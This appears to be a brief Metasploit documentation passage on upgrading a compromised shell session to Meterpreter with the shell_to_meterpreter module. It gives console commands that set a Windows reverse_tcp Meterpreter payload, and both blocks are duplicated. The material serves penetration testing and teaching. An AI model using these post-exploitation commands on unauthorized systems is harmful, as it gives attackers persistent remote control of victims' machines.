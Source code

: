 ## Upgrading shells to Meterpreter
If you have an existing session, either Meterpreter, an SSH, or a basic command shell - you can open a new Meterpreter session with:
```
use multi/manage/shell_to_meterpreter
run session=-1
run session=-1 win_transfer=POWERSHELL
run session=-1 win_transfer=VBS
```

To upgrade the most recently opened session to Meterpreter using the `sessions` command:
```
use multi/manage/shell_to_meterpreter
set SESSION 1
set PAYLOAD_OVERRIDE windows/meterpreter/reverse_tcp
set PLATFORM_OVERRIDE windows
set PSH_ARCH_OVERRIDE x64
```

`
use multi/manage/shell_to_meterpreter
run session=-1
run session=-1 win_transfer=POWERSHELL
run session=-1 win_transfer=VBS
`

`
use multi/manage/shell_to_meterpreter
set SESSION 1
set PAYLOAD_OVERRIDE windows/meterpreter/reverse_tcp
set PLATFORM_OVERRIDE windows
set PSH_ARCH_OVERRIDE x64
`

